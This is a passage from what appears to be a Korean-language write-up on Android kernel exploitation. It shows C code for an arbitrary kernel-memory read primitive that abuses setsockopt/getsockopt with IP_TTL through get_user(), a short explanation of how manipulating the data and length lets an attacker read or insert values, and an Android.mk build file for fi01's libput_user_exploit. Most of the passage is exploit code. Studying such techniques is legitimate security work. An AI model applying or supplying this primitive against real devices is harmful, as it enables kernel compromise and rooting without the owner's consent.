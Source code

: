 ```c
  *value = 0;
  errno = 0;

  if ((sock = socket(PF_INET, SOCK_STREAM, IPPROTO_TCP)) < 0) {
    printf("error in socket().\n");
    return false;
  }

  for (i = 0; i < sizeof (*value); i++, address++, data++) {
    if (setsockopt(sock, SOL_IP, IP_TTL, (void *)address, 1) != 0) {
      if (errno != EINVAL) {
	printf("error in setsockopt().\n");
	*value = 0;
	return false;
      }
    }
    else {
      socklen_t optlen = 1;
      if (getsockopt(sock, SOL_IP, IP_TTL, data, &optlen) != 0) {
	printf("error in getsockopt().\n");
	*value = 0;
	return false;
      }
    }
  }

  close(sock);

  return true;
}

bool
get_user_read_value_at_address(unsigned long address, int *value)
{
  return ipsock_read_value_at_address(address, value);
}
```

 `get_user()`를 통해 kernel과 통신하기 위해서 우선 소켓을 생성해야한다. 임의의 주소를 읽기 위 `setsockopt()`를 통해 진행한다. 여기서 `{set, get}sockopt()`의 데이터와 데이터 길이를 조작 하여 공격자가 원하는 값을 도출 혹은 삽입 할 수 있다.

### ii. Use `put_user()`

> Based on [fl01's libput_user_exploit](https://github.com/fi01/libput_user_exploit)

```makefile
# File: Android.mk

LOCAL_PATH := $(call my-dir)

include $(CLEAR_VARS)

LOCAL_SRC_FILES := \
  put_user.c \

LOCAL_MODULE := libput_user_exploit
LOCAL_MODULE_TAGS := optional

include $(BUILD_STATIC_LIBRARY)
```
